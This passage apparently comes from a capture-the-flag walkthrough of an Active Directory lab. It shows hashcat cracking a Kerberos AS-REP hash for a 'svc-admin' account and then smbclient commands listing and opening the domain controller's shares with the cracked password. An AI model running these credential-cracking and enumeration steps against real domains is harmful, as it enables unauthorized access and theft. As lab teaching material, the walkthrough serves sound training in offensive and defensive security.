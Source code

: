 



## Crack the hash with the modified password list provided, what is the user accounts password?



hashcat -m 18200 hash.txt passwordlist.txt 


hashcat -m 18200 hash.txt passwordlist.txt --show


$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:7e3de9d9e0eae03c5a0e7781393b3e77$f68e8a387a4ae3ffabf3c109337db46c7a7e33451ca566aef7498b47b984d21c8dfe106f397197a17a2dc1ae9a2ba3699c1f864d7a16213e145419bb3f7a50d6306b5563b579f540432f8755dfb99c1754d1c1a1c7c534635002018771c57f06a9b08d189a18e0ab75100c425046243cbe6ec215b643bcf92c95aeaf0a79a7a3e3e29bf577699561f499897452e5f3125db082027a4d7af563f986e68dc4e86d60463cb6982522c88c1e8c1b5aec6c6e3466f0abd711a2df889e1e4babd7c65397ab3ecf3be4a554bf12454098f675127babc7f0b5a21ecca253479a4640ff5394390bfd8177646da8e8c720c14b724e2973:management2005








 Back to the Basics
Enumeration:

With a user's account credentials we now have significantly more access within the domain. We can now attempt to enumerate any shares that the domain controller may be giving out.


smbclient -L \\\\10.201.73.14 -U 'svc-admin%management2005'


smbclient -L \\\\10.201.73.14 -U 'svc-admin'



Password for [WORKGROUP\svc-admin]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.201.73.14 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
                                                                                                                                                       
┌──(kali㉿kali)-[~/Downloads/active]
└─$ 





smbclient \\\\$target\\backup -U svc-admin%management2005
